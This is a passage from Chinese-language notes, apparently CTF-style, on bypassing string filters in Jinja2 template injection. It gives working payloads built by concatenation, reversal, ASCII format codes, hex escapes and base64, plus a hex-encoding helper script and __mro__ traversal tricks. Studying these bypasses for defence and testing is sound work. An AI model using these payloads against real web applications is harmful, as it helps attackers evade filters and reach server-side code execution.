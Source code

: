 

#### 字符串的处理

**1、拼接**
`"cla"+"ss"`
**2、反转**
`"__ssalc__"[::-1]`

实际上我发现其实加号是多余的，在jinjia2里面，`"cla""ss"`是等同于`"class"`的，也就是说我们可以这样引用class，并且绕过字符串过滤

**3、ascii转换**

```python
1.
"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
比如：
{{""['{0:c}'['format'](95)%2b'{0:c}'['format'](95)%2b'{0:c}'['format'](99)%2b'{0:c}'['format'](108)%2b'{0:c}'['format'](97)%2b'{0:c}'['format'](115)%2b'{0:c}'['format'](115)%2b'{0:c}'['format'](95)%2b'{0:c}'['format'](95)]}}
或者：
{{""["{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)]}}
得到<class 'str'>
2.
"%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)=='__class__'
""["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
```

**4、编码绕过**

```
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
比如：{{""['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']}}
对于python2的话，还可以利用base64进行绕过
"__class__"==("X19jbGFzc19f").decode("base64")
```

关于16进制我这里写个脚本，方便懒人吧

```
# 方法一：先通过ord()把字符转成ascii码的十进制，再通过hex（）转成16进制
# 方法二：先把字符串转成字节，再从字节转成16进制
# data="assgdfnjhgjgj"
# print(data.encode().hex())
target = "__class__"
final = ""
for item in target:
	# 0x5f转换为/x5f
    final += ("\\"+hex(ord(item))[1:])
print(final)
```

5.first与last

```python
"".__class__.__mro__|last()
相当于
"".__class__.__mro__[-1]

"".__class__.__mro__|first()
相当于
"".__class__.__mro__[0]
```
